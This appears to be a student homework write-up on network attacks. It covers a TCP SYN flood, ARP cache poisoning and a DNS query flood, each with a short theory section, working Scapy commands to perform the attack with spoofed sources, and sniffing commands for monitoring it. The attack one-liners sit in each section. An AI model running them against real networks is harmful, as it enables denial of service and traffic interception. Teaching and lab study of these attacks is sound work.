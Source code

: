 # MIE-SIB. Homework #1. 

### 1, TCP/SYN Packet (TCP/SYN Flood)

###### Theoretical overview

A **SYN flood** is a form of denial-of-service attack in which an attacker sends a succession of SYN requests to a target's system in an attempt to consume enough server resources to make the system unresponsive to legitimate traffic.

Normally when a client attempts to start a TCP connection to a server, the client and server exchange a series of messages which normally runs like this:

1. The client requests a connection by sending a SYN (synchronize) message to the server.
2. The server acknowledges this request by sending SYN-ACK back to the client.
3. The client responds with an ACK, and the connection is established.

This is called the **TCP three-way handshake**, and is the foundation for every connection established using the TCP protocol.

![Normal work](http://upload.wikimedia.org/wikipedia/commons/thumb/9/9a/Tcp_normal.svg/220px-Tcp_normal.svg.png)

A **SYN flood attack** works by not responding to the server with the expected ACK code. The malicious client can either simply not send the expected ACK, or by spoofing the source IP address in the SYN, causing the server to send the SYN-ACK to a falsified IP address - which will not send an ACK because it "knows" that it never sent a SYN.

The server will wait for the acknowledgement for some time, as simple network congestion could also be the cause of the missing ACK, but in an attack increasingly large numbers of half-open connections will bind resources on the server until no new connections can be made, resulting in a denial of service to legitimate traffic. Some systems may also malfunction badly or even crash if other operating system functions are starved of resources in this way.

![SYN Flood](http://upload.wikimedia.org/wikipedia/commons/thumb/9/94/Tcp_synflood.png/220px-Tcp_synflood.png)


###### Using Scapy for performing attacks.

	send(IP(src=RandIP('10.0.0.0/8'), dst='172.16.16.16')/TCP(sport=RandShort(), dport=80), loop=1) 

Scapy generates `TCP SYN` packets at a constant rate to the victim with `address 172.16.16.16` on `port 80`, sourced from random spoofed addresses within the allowed management network (`10.0.0.0/8`). Appending the `loop=1` parameter to scapy's send() command instructs it to regenerate and retransmit the packet at a constant rate indefinitely. 

On the victim router, we can see that the TCP connection queue is immediately exhausted: 

	02:15:49.007776 IP 10.183.157.9.35319 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.008966 IP 10.143.122.81.61439 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.010057 IP 10.23.145.69.45972 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.011082 IP 10.36.20.15.23697 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.012211 IP 10.237.52.92.34983 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.013442 IP 10.37.190.76.20831 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.014706 IP 10.36.141.23.4999 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.015997 IP 10.200.164.146.33124 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.017994 IP 10.131.175.162.38615 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.019118 IP 10.46.64.11.48947 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.020234 IP 10.133.81.101.52032 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.021436 IP 10.253.244.76.18717 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.022464 IP 10.66.75.205.27219 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.023491 IP 10.202.188.247.11763 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.024614 IP 10.82.193.102.54673 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.025861 IP 10.150.235.34.29320 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.027553 IP 10.231.145.11.58377 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.029261 IP 10.145.105.136.60844 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	
###### Using Scapy for monitoring attacks.

We can easily capture `tcp` packets with `S flag`:

	a = sniff(filter="tcp[tcpflags] & (tcp-syn) != 0")
	a.nsummary()

Displayed information:
	
	0000 Ether / IP / TCP 10.86.233.36:25701 > 172.16.16.16:www S
	0001 Ether / IP / TCP 10.155.28.58:56047 > 172.16.16.16:www S
	0002 Ether / IP / TCP 10.79.88.202:60566 > 172.16.16.16:www S
	0003 Ether / IP / TCP 10.95.55.197:64929 > 172.16.16.16:www S
	0004 Ether / IP / TCP 10.177.194.62:1856 > 172.16.16.16:www S
	0005 Ether / IP / TCP 10.236.101.170:21069 > 172.16.16.16:www S
	0006 Ether / IP / TCP 10.236.110.58:16205 > 172.16.16.16:www S
	0007 Ether / IP / TCP 10.40.112.40:63280 > 172.16.16.16:www S
	0008 Ether / IP / TCP 10.216.122.157:16823 > 172.16.16.16:www S
	0009 Ether / IP / TCP 10.66.169.3:60749 > 172.16.16.16:www S
	0010 Ether / IP / TCP 10.61.157.51:48726 > 172.16.16.16:www S
	0011 Ether / IP / TCP 10.73.11.92:55115 > 172.16.16.16:www S
	0012 Ether / IP / TCP 10.115.49.253:23161 > 172.16.16.16:www S

### 2, ARP Poisoning.

###### Theoretical overview

**ARP (address resolution protocol)** operates by broadcasting a message across a network, to determine the Layer 2 address (MAC address) of a host with a predefined Layer 3 address (IP address). The host at the destination IP address sends a reply packet containing its MAC address. Once the initial ARP transaction is complete, the originating device then caches the ARP response, which is used within the Layer 2 header of packets that are sent to a specified IP address.

![ARP poisoning](http://hakipedia.com/images/MitM.png)

An **ARP Spoofing attack** is the egression of unsolicited ARP messages. These ARP messages contain the IP address of a network resource, such as the default gateway, or a DNS server, and replaces the MAC address for the corresponding network resource with its own MAC address. Network devices, by design, overwrite any existing ARP information in conjunction with the IP address, with the new, counterfeit ARP information. The attacker then takes the role of man in the middle; any traffic destined for the legitimate resource is sent through the attacking system. As this attack occurs on the lower levels of the OSI model, the end-user is oblivious to the attack occurrence.

**ARP Poisoning** is also capable of executing Denial of Service (DoS) attacks. The attacking system, instead of posing as a gateway and performing a man in the middle attack, can instead simply drop the packets, causing the clients to be denied service to the attacked network resource. The spoofing of ARP messages is the tributary principal of ARP Poisoning.

###### Using Scapy for performing attacks.

Exists high-level function that is already coded `arpcachepoison`. That performs poison target's cache with (your MAC,victim's IP) couple.

	arpcachepoison('172.16.16.16', '10.0.0.1')

Will cause `172.16.16.16` to send the current host all packets originally intended for `10.0.0.1`.

Also it can be done in different way by using standart functions:

	a = ARP()

Now, target and victims ip addresses are set.

	a.psrc=("10.0.0.1")
	a.pdst=("172.16.16.16")

Send packet.

	send(a)

###### Using Scapy for monitoring attacks.

We should capture `arp` packets:

	a =sniff(filter="arp")
	a.summary()
	
Result on target side looks like:

	Ether / ARP who has 172.16.16.16 says 10.0.0.1
	

### 3, DNS query (DNS Multiplication Attack)

###### Theoretical overview

A **DNS query** is the process of a networking device making an inquiry to get an IP address for a DNS name. 

The client computer will send a DNS query to one of their DNS servers. The DNS server looks in it's DNS database to tell whether it can answer the query authoritatively. If the DNS server can answer authoritatively, the DNS server answers the query and the DNS query process is complete... *further stages are not interested for us within the bounds of this task*.

![ARP poisoning](http://www.ingate.com/files/422/fwmanual-en/png-img/fw-acdns1-en.png)

###### Using Scapy for performing attacks.

	sr1(IP(src=RandIP('10.0.0.0/8'), dst='172.16.16.16')/UDP(sport=RandShort(),dport=53)/
	... DNS(rd=1,qd=DNSQR(qname="fit.cvut.cz", qtype="AAAA")))
	
DNS query to the DNS server at `172.16.16.16` from random ip addresses `10.0.0.0/8`. The request is about presence IPv6 records type `AAAA` for the domain `fit.cvut.cz`.

`rd=1` is telling that recursion is desired, and `sr1` is the send/receive function that only returns the first answered packet.

###### Using Scapy for monitoring attacks.

We should capture `udp` packets at `port 53`:

	a=sniff(filter="udp and port 53")
	a.summary();

Result is:

	Ether / IP / UDP / DNS Qry "fit.cvut.cz." 
	
